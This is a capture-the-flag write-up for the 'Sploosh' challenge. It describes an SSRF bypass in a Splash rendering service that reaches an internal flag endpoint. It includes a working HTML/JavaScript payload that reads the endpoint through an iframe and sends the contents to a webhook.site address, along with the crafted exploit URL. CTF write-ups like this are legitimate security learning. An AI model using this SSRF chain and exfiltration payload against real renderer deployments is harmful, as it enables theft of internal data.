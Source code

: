 # Sploosh

```
I wanted to make my own URL scraper, but parsing HTML is hard, so I used some random open source scraping project instead.

http://sploosh.chal.perfect.blue/

By: Corb3nik

```

I ended up solving this with an unintended solution, so I thought a writeup could be useful. The challenge was basically a [splash](https://github.com/scrapinghub/splash) instance, and a separate php api that proxies requests to it and also serves the flag. The `/flag.php` endpoint prints the flag only if the request is originating either from the api or splash. When a request is sent to the api to render a webpage using splash, the url we pass is urlencoded to prevent us from adding additional query parameters at the end of the url which get interpreted as options by splash. The first step is to bypass this proteciton by making splash request itself before it requests an external site. That way we control the whole querystring passed to splash (since the api.php also adds a `timeout=1` to the initial request, this makes me believe this bypass was the unintended part). This allows us to add a `baseurl=http://172.16.0.14/` query parameter, which makes all requests from the rendered website go to the api server instead of the actual host, allowing us to simply request `/flag.php` from javascript to get the flag. If we were instead not going to use `baseurl` and just request `http://172.16.0.14/flag.php` we would get CORS violations. When we get hold of the flag, we just send it along back to us with another request.

I don't know javascript very well, so the hardest part for me was fetching and sending the flag before the load event is triggered which splash uses to know when to stop rendering. I came up with this disgusting solution that loads `/flag.php` in an iframe, then requests a bogus stylesheet to just take up time and let the flag actually load into the iframe before it is read by the javascript and sent away.

```html
<!DOCTYPE html>
<html lang="en">
<body>
    <iframe src="/flag.php" id="frame" frameborder="0"></iframe>
    <link rel="stylesheet" href="https://google.com">
    <script>
        flag = document.getElementById("frame").contentWindow.document.body.innerHTML
        r = new XMLHttpRequest();
        r.open("GET", "https://webhook.site/9525117e-b9b5-4b9b-b707-cca9b403a9c7/"+btoa(flag));
        r.send();
    </script>
</body>
</html>
```

The final url was then this, after which the flag appears in the webhook.site interface:

```http://sploosh.chal.perfect.blue/api.php?url=http://localhost:8050/render.html?timeout=1%26url=https://webhook.site/9525117e-b9b5-4b9b-b707-cca9b403a9c7?3%26baseurl=http://172.16.0.14/```

`pbctf{1_h0p3_y0u_us3d_lua_f0r_th1s}` (sorry, i didn't)